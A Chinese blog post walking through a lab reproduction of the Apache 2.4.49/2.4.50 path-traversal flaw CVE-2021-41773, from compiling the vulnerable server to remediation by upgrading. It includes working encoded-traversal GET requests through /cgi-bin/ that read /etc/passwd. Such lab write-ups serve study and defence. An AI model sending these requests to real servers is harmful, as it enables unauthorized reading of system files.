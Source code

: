 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkzMDQ0NzQwNA==&mid=2247486827&idx=1&sn=a25724a950ba87c0352ab769c3f88bb2

#  CVE-2021-41773 漏洞复现：从失败到成功的探索  
原创 ralap  网络个人修炼   2025-06-24 01:00  
  
近期在安全设备上发现多起利用 CVE-2021-41773 漏洞的攻击事件，借此机会记录对该漏洞的分析及复现过程，分享从失败尝试到成功复现的探索心得。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5y2fUaoQPfKmRv5UNzUfQdkQhzPjOj13RVS1DQFguRxQcKOojljbwyrUOtOicib9PzvbnpKsBHb8icChxvHHhXw1w/640?wx_fmt=png&from=appmsg "")  
  
  
一、漏洞原理  
  
CVE-2021-41773 是 Apache HTTP Server 2.4.49 版本中发现的一个严重路径遍历和命令注入漏洞。当服务器启用 CGI 脚本处理时，攻击者可通过构造特殊格式的 URL，利用编码绕过机制读取服务器任意文件，甚至执行系统命令。  
  
漏洞的核心在于 Apache 对 URL 中编码的路径遍历序列（如`%2e%2e`表示`..`）处理不当，导致在解析 CGI 请求时绕过了正常的目录访问限制。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5y2fUaoQPfKmRv5UNzUfQdkQhzPjOj13GLjRgwqHiczQibiboJMmMfAQKbkxficIzHh6UUl4I704RicHmvaMkvMicyicQ/640?wx_fmt=png&from=appmsg "")  
  
  
二、编译安装 Apache 2.4.49  
  
1. 环境准备  
  
由于系统默认通过 yum 安装的 Apache 版本为 2.4.6，无法复现漏洞，因此需手动编译安装 2.4.49 版本。首先，确保系统已安装编译所需依赖：  

```
yum install -y gcc make pcre-devel zlib-devel openssl-devel
```

  
2. 下载源码并编译安装  
  
执行以下命令下载 Apache 2.4.49 源码包并进行编译安装：  

```
wget https://archive.apache.org/dist/httpd/httpd-2.4.49.tar.gz
tar -zxvf httpd-2.4.49.tar.gz
cd httpd-2.4.49
./configure --prefix=/usr/local/httpd
make && make install
```

  
  
三、配置 Apache 服务器  
  
编辑配置文件 /usr/local/httpd/conf/httpd.conf，将第 207 行的：  

```
Requireall denied
```

  
修改为：  

```
Requireall granted
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/5y2fUaoQPfKmRv5UNzUfQdkQhzPjOj13dqeXDQUjXIPXib0Sda17EkxeuzqEb5caw65mOaib8siaiabias2riaKoicibKw/640?wx_fmt=png&from=appmsg "")  
  
此修改允许所有来源访问，方便后续漏洞复现测试。保存配置后，启动 Apache 服务：  

```
/usr/local/httpd/bin/apachec
```

  
启动成功后，可通过浏览器访问服务器 IP，确认 Apache 默认欢迎页面正常显示。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5y2fUaoQPfKmRv5UNzUfQdkQhzPjOj13oKcicO9fULqq3VBfjichvSBEzEnzGS4Wd3edRic1miaE3WydxZD9pGrLuA/640?wx_fmt=png&from=appmsg "")  
  
  
四、复现漏洞  
  
1. 初始尝试（失败）  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5y2fUaoQPfLQ3c8ynRDO17dGqrOInyNNb7J1fflCsABC5JQI3dCYyJ9Qg6Y0PV0ggj6Czfyvw3hMj32pmtublA/640?wx_fmt=png&from=appmsg "")  
  
使用 BurpSuite 按POC发送以下请求：  

```
GET /.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/5y2fUaoQPfKmRv5UNzUfQdkQhzPjOj13cOyN2p7XLxnzsVJgZUDryQ2zMfVLMUYEmsYA3durAYxhhzbiaHCWfBw/640?wx_fmt=png&from=appmsg "")  
  
以及其他变体请求：  

```
GET /.%2e/./%2e%2e/../%2e%2e/../%2e%2e/../etc/passwd HTTP/1.1
GET /.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
GET /./.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
```

  
均未成功获取目标文件内容。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5y2fUaoQPfKmRv5UNzUfQdkQhzPjOj13dzfQt4tRurCgr1fdl2KIrpcPYOQcV4oYqajAEPs9vcibLOmd3pJvicNA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5y2fUaoQPfKmRv5UNzUfQdkQhzPjOj13pIWNqdyCY7t9tQSEEbUpclxHcwYH5YTEQ9U0k4PlpOQ6wOmUHFEicjw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5y2fUaoQPfKmRv5UNzUfQdkQhzPjOj13ianAaSvIiaHphmPqSicYCpGsbpficOGmu5QwY6SLBAHUZE8tlPpiajHTuNA/640?wx_fmt=png&from=appmsg "")  
  
2. 关键突破（成功）  
  
经过多次尝试，发现当请求路径包含 /cgi-bin/ 时，漏洞得以成功复现。发送以下请求：  

```
GET /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/5y2fUaoQPfKmRv5UNzUfQdkQhzPjOj13icwzCTZVmpCUgMdHaO0Bh42AEicXzw1dffo27gNShRP0VGK0xtTKicAQw/640?wx_fmt=png&from=appmsg "")  
  
同样，Apache 2.4.50 版本也存在类似漏洞，通过变体请求：  

```
GET /cgi-bin/.%%32e/.%%32e/.%%32e/.%%32e/etc/passwd HTTP/1.1
```

  
也可以成功读取目标文件内容。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5y2fUaoQPfKmRv5UNzUfQdkQhzPjOj13pA9GRhgYKT1ibxAIRI4mS3OBcQmsQ2LSMSTsgUuWqEr5tDKup4JvKzA/640?wx_fmt=png&from=appmsg "")  
  
  
  
五、漏洞修复建议  
  
针对 CVE-2021-41773 漏洞，最直接且有效的修复方式是将 Apache HTTP Server 升级至官方最新版本，目前最新版本为 2.4.63。升级后，该漏洞已被彻底修补。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5y2fUaoQPfKmRv5UNzUfQdkQhzPjOj13JAXclyZTvnbcx4YvP7bWJMfunrrmn2rKGQQCassQqRnuH1srPtxCJw/640?wx_fmt=png&from=appmsg "")  
  
  
  
参考链接  
  
https://httpd.apache.org/security/vulnerabilities_24.html  
  
https://www.secrss.com/articles/34890  
  
https://www.jianshu.com/p/3076d9ec68cf  
  
https://github.com/vulhub/vulhub/blob/master/httpd/CVE-2021-41773/README.zh-cn.md  
  
  
  
-End-  
  
  
  
**如果觉得我的分享有用**  
  
**[点赞+分享****+关注]**  
  
  
